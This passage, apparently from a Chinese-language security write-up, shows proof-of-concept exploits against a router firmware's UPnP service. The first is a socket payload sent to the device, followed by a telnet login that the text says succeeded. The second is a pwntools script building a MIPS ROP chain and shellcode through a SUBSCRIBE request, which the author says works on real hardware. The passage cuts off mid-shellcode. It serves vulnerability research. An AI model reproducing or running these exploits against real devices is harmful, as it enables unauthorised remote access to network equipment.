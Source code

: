 ```
s.connect((gethostbyname("192.168.10.1"), 49152))
s.send(msg)
 
sleep(1)
system("telnet 192.168.10.1 23")
```  
  
  
成功地远程登陆到了路由固件中：  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4pGicG8dEfvlGBm3aMdpRTzuXjUDMZIyxgtH0Djj416CoUHtoJBPdXfA/640?wx_fmt=png "")  
  
  
检测到23号端口的telnet服务已被开启：  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4kyql5iaiajESZtMicRL7bhByJgNL0voRj3UEhTooiaWDia5tqt6X0AicgC6w/640?wx_fmt=png "")  
  
   
  
**POC-2：**  
  
   
  
这个脚本在firmadyne模拟的环境中是打不通的，原因未知，可能是shellcode过长，到了一些不可执行区，但是在真机环境是可以打通的。  
  
   
  
这里用的是SUBSCRIBE的请求方式，对service进行了注入。  
```
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'mips')
 
libc_base = 0x2aaf8000
 
s = socket(AF_INET, SOCK_STREAM)
 
payload = b'a'*449
payload += b'a'*4 # s0
payload += p32(libc_base + 0x3E874) # s1  move $t9, $s2 (=> lw... => jr $t9)
payload += p32(libc_base + 0x56BD0) # s2  sleep
payload += b'a'*(4*5)
payload += p32(libc_base + 0x57E50) # ra  li $a0, 1 (=> jalr $s1)
 
payload += b'a'*0x18
payload += b'a'*4 # s0
payload += p32(libc_base + 0x37E6C) # s1  move  $t9, $a1 (=> jr $t9)
payload += b'a'*4 # s2
payload += p32(libc_base + 0xB814) # ra  addiu $a1, $sp, 0x18 (=> jalr $s1)
 
shellcode = asm('''
    slti $a0, $zero, 0xFFFF
    li $v0, 4006
    syscall 0x42424
 
    slti $a0, $zero, 0x1111
    li $v0, 4006
    syscall 0x42424
 
    li $t4, 0xFFFFFFFD
    not $a0, $t4
    li $v0, 4006
    syscall 0x42424
```